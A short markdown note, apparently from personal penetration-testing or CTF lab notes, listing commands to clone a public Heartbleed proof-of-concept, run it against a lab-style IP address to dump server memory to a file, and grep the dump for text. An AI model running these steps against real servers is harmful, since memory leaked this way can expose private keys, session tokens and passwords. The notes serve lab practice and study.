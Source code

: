 # Heartbleed

## get heartbleed python poc

```bash
git clone https://github.com/sensepost/heartbleed-poc.git
```

## Dump in file

```bash
python heartbleed-poc.py 10.10.10.79 -n 10 -f dump.bin
```

## grep text from dump

```bash
grep -a "text" dump.bin
```
